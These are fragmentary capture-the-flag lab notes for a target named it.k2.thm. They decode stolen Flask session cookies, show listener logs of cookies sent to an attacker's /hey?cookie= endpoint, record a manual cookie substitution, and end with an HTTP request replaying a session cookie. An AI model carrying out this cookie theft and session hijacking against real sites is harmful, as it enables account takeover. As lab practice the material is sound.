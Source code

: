
__


:~/K2# echo 'eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aNr2og.GPdhIzUEKjqX4MTXVnSJenDce_M' | base64 -d
{"admin_username":"james","id":1,"loggedin":true}


:~/K2# echo 'eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aNr2oA.THp1kRD9dU-Vfs8bg6iBAb_WzPM' | base64 -d
{"admin_username":"james","id":1,"loggedin":true}


___


substituted cookie in inspect

<img width="1115" height="342" alt="image" src="https://github.com/user-attachments/assets/0efd0248-6b77-44ea-b411-ba1f051e1160" />






10.201.88.234 - - [29/Sep/2025 22:13:03] code 404, message File not found
10.201.88.234 - - [29/Sep/2025 22:13:03] "GET /hey?cookie=session=eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aNr2Xg.q58cPXoCGikHgeXzQNzbLhofyCE HTTP/1.1" 404 -
10.201.88.234 - - [29/Sep/2025 22:13:06] code 404, message File not found
10.201.88.234 - - [29/Sep/2025 22:13:06] "GET /hey?cookie=session=eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aNr2YQ._na-CB3su4kKMNxZPsa2dk4uU0E HTTP/1.1" 404 -
10.201.88.234 - - [29/Sep/2025 22:13:08] code 404, message File not found
10.201.88.234 - - [29/Sep/2025 22:13:08] "GET /hey?cookie=session=eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aNr2Yw.jw0i7ohBBqYNuO4t7odAAV8MCyg HTTP/1.1" 404 -
10.201.88.234 - - [29/Sep/2025 22:13:10] code 404, message File not found
10.201.88.234 - - [29/Sep/2025 22:13:10] "GET /hey?cookie=session=eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aNr2ZQ.S9SR5MFiV69rkEkpCPV4E9JDCgE HTTP/1.1" 404 -
10.201.88.234 - - [29/Sep/2025 22:13:12] code 404, message File not found
10.201.88.234 - - [29/Sep/2025 22:13:12] "GET /hey?cookie=session=eyJhZG1pbl91c2VybmFtZSI6ImphbWVzIiwiaWQiOjEsImxvZ2dlZGluIjp0cnVlfQ.aNr2Zw.G1dh-02jwMENurFPN-i3NIgDR6k HTTP/1.1" 404 -















POST /dashboard HTTP/1.1
Host: it.k2.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Origin: http://it.k2.thm
Connection: close
Referer: http://it.k2.thm/dashboard
Cookie: session=eyJhdXRoX3VzZXJuYW1lIjoibGlsaSIsImlkIjoxLCJsb2dnZWRpbiI6dHJ1ZX0.aNrnBw.ozF02MCsRjyFFHLRUvvHLCFbG_g
Upgrade-Insecure-Requests: 1
Priority: u=0, i
